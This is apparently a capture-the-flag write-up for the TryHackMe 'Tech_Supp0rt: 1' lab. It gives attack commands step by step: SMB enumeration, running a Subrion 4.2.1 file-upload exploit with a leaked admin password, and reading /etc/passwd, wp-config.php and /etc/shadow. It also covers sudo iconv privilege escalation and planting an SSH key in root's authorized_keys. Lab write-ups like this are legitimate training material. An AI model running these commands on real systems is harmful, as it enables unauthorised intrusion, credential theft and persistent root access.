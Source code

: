 # Tech_Supp0rt: 1 

<p align="left">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/4128774917fae71184e79acab2007e93.png" alt="TechSupport Room Image" width="250">
</p>


## Hack into the machine and investigate the target.

I started of this challenge by running an nmap scan and also ran a gobuster scan.
```
nmap -sV -sC <IP_Machine>
```
```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u <IP_Machine>
```
The nmap scan came back and I quickly noticed that there was an smb server present.

Host Scripts Results:

account_used: guest

authentication_level: user

After many failed attempts of trying to make the credentials work with 
the smbclient command.. I searched online and found a command to connect.

```
smbclient //<Machine_IP>/websvr
```

Here I was into the smb server client
From here I used an 'ls' command and saw that there was an 'enter.txt' file.
I used a 'get' command to download the file onto my host machine.
After I opened the file on my machine it read:
______________________________________________________________________
```
Goals
=====
1)Make fake popup and host it online on Digital Ocean server

2)Fix subrion site, /subrion doesn't work, edit from panel

3)Edit wordpress website

IMP
===
Subrion creds

|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

Wordpress creds

|->
```
_______________________________________________________________________

Reading this file I saw that the 'subrion/' looked like a directory on the webpage. 
There also seemed to be a username and password. (If you put the password into
cyberchef and cook it with the magic decryption.. it comes out to 'Scam2021')

I tried to put the subrion/ onto the end of browser search and came 
up with a directory along with a /robots.txt after it.

http://<IP_Machine>/subrion/robots.txt
resulted with these directories >> 
______________________________________________________________________
User-agent: *

Disallow: /backup/

Disallow: /cron/?

Disallow: /front/

Disallow: /install/

Disallow: /panel/

Disallow: /tmp/

Disallow: /updates/
_________________________________________________________________________

I tried to input all of these and the one that looked most interesting
was the '/panel/' page because I already had a username and a password.

After logging in it appeared I could be able to run an exploit and get a shell on this machine.
There was a version that I could see as Subrion CMS
v 4.2.1

I found an exploit on 'exploit-db' which seemed to match the same version called 
Subrion CMS 4.2.1 - Arbitrary File Upload 

When trying to run the exploit I got an error tha looked like this :

```
Traceback (most recent call last):
  File "49876.py", line 19, in <module>
    from bs4 import BeautifulSoup
ModuleNotFoundError: No module named 'bs4'
```
I then installed BeauttifulSoup using https://pypi.org/project/beautifulsoup4/

```
pip2 install beautifulsoup4
```

After installing.. I ran the command again with the username (-l) and password (-p)
like so--->

```
python3 49876.py -u http://10.10.198.19/subrion/panel/ -l admin -p Scam2021
``` 
AND I GOT A SHELL ^-^
Here I searched for /etc/passwd file 

```
cat /etc/passwd
```
I noticed that there was a directory to 'scamsite' and also knew that the site was powered
by wordpress so I could be able to run a cat command using this in the shell.

```
cat /var/www/html/wordpress/wp-config.php
```

Here I got access to the file and was able to find a password 

```
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

I then ran ssh to connect to the website using the password I found
in the database.

```
ssh scamsite@<IP_Machine>
```
And then I was connected to 'scamsite@TechSupport'
I then checked for permissions. 

```
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/iconv
```

Once I saw that we had privilege here.. I went to GTFO bins and 
searched for permissions. I searched iconv and used -->

```
LFILE=file_to_read   
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

Then I imput the path I wanted to use

```
LFILE=/etc/shadow   
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

This gave me the shadow file. I then ran another command
This time using -->

```
LFILE=/root/root.txt
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

And I got the root.txt flag

This wasn't the end as I wanted to get to the root user.
On my machine I generated a public and private key.

```
ssh-keygen
```

I copied the public key and put it onto the attacking machine

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXAr00dvELBb43yeqP1kKlKcmJfiF5Kf4FXmHUwr17wwEpl
yP4jvjCS1uyW4Wrz+Bu1htWrW5NoiBwbR6BZqzXjlJKDVH3vKI2DvoQRLyvsdG+h7CmtszATI/zkLIL9kSfoVlXtWpNaN/9Ay8
/rQISsgsMdERPq/o6aatQF0KEtBPOW6+/TuwY9iFujfK56veQkDiolVN+BXSbz//HIzFyC1Tf8dnjBXVDEfHqicuW
50uuJq0Haj6ZETCWk0r/BOUCD28R2AFbqRd2z1RTCThSMzpoBKHeDTLqpc1z4ebpVlk0DL2DzMzCLKAa
kWe/CVAn7jzHfiVmQ5SwhF7NVSCV lotus@<<Machine_IP>" | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys  
```

I then used the key pair to log onto the root user.

```
ssh root@<attacking_ip> -i tech_support
```

And finally I was root ^_^.

